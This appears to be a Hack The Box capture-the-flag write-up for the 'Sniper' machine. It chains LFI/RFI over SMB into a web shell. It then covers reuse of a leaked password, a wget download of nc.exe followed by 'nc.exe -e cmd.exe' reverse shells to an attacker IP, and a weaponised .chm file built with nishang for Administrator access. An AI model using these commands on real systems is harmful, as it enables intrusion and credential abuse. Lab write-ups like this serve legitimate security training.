

---
---

# HTB - Sniper

```bash
nmap 10.129.229.6 -p-
```


```bash
nmap 10.129.229.6 -A -p 80,135,139,445,49667
```


- By selecting a language:


- We can see that a .php file gets included

- This could be a potential LFI (Local File Inclusion)

- We add a known Windows file into the path
  - /Windows\System32\drivers\etc\hosts
  - /windows/win.ini

**(Don't include C:\\ Just add a forward slash / to represent the root directory**


And the response:


- We can try RFI through http ie. ?lang=//10.10.14.84/test.php
But in the PHP configuration file, "**allow_url_include**" wrapper **by-default set to "Off"** which instruct PHP not to load remote HTTP or FTP URLs

**But it doesn't include SMB**

**<u>Exploit:</u>**
[https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

- Create a file to test (displays php server info):
```bash
echo "<?php phpinfo(); ?>" | tee /tmp/share/test.php

```

- Tried it with impacket-smbserver but we get a connection and it closes

- So following the link above:
```bash
sudo su
apt install samba
mkdir /tmp/share
chmod 0555 /tmp/share
chown -R nobody:nogroup /tmp/share
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
echo \> /etc/samba/smb.conf
nano /etc/samba/smb.conf

```

<u>Enter the below into smb.conf:</u>

```bash
[global]

workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[share]
path = /tmp/share
writable = yes
guest ok = yes
guest only = yes
read only = no
directory mode = 0555
force user = nobody
```

```bash
service smbd restart
```
- Note: The **\[share\]** is the sharename
So we have to go to **?lang=\\10.10.14.84\share\test.php**


It worked!

- Now let's get an interactive web shell:
```bash
git clone https://github.com/incredibleindishell/Mannu-Shell.git
cd Mannu-Shell
cp mannu.php /tmp/share

```
**/blog/?lang=\\10.10.14.84\share\mannu.php**


We get this weird looking indi web shell

- We can execute commands:


Create a Powershell reverse shell from revshells and execute:


We get a more stable shell as user **iusr**:


SeImpersonatePrivilege is set
- But I can't exploit that here

Moving on:
- We get credentials in **C:\inetpub\wwwroot\user\db.php**


**36mEAhz/B8xQ~2VM**

- There is another user - Chris


- We can check if the credentials were reused:
```bash
crackmapexec smb 10.129.202.21 -u "chris" -p '36mEAhz/B8xQ~2VM'

```


- Checking with powershell:

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;

```


- Now we know the credentials are being reused - we can try and get a shell:
**(Msfvenom generated payloads didn't work - only nc.exe worked)**

- Get nc.exe ready
- Start a python http server and a nc listener

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.84/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4444} -credential $credential;

```
**or**

```bash
invoke-command -computer sniper -scriptblock { C:\Users\chris\nc.exe 10.10.14.84 1234 -e powershell.exe } -credential $cred

```


- Got a shell as Chris:


Looking through the folders, there is a file in Chris' Downloads folder


Also, in the C:\\ root directory, there is a Docs folder with some files


We can read the note.txt file:


But the other two files, can't be read on here, so we need to transfer them to our machine:

I tried to use the Samba SMB share but it kept saying Access Denied.

So I stopped the smbd service. And started impacket-smbserver in the directory





I opened the instructions.chm on a Windows VM:


**<u>Exploit:</u>**

Following this guide, we can create a malicious .chm file:

[https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)

- Open a Windows VM
- Download HTML Help Workshop and Documentation program (if not already installed)
- Download the Out-CHM.ps1 module (or copy and paste):
<https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1>

- Open PS as admin and run:
```powershell
Set-ExecutionPolicy Unrestricted
Import-Module .\Out-CHM.ps1
out-chm -Payload "C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4445" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```


- Copy the create doc.chm back to the Kali VM and host an SMB share
- Now copy the doc.chm file from Kali to the victim machine C:\Docs folder

- Set up a listener on the port you specified

- And we have a shell back from the Administrator and can read root.txt:

